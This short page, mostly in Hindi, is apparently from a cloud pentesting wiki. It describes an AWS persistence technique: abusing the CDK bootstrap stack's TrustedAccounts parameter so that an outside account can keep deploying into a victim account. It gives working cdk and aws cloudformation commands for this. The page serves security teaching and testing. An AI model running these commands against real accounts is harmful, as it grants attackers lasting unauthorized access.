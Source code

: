 # AWS - Cloudformation Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFormation

अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK `CDKToolkit` नामक एक CFN stack को डिप्लॉय करता है। यह stack `TrustedAccounts` नामक एक parameter को सपोर्ट करता है, जो बाहरी accounts को victim account में CDK projects deploy करने की अनुमति देता है। एक हमलावर इसका दुरुपयोग करके स्वयं को victim account तक अनिश्चितकालीन पहुँच दे सकता है, या तो AWS cli का उपयोग करके parameters के साथ stack को पुनः डिप्लॉय करके, या AWS CDK cli का उपयोग करके।
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../../banners/hacktricks-training.md}}

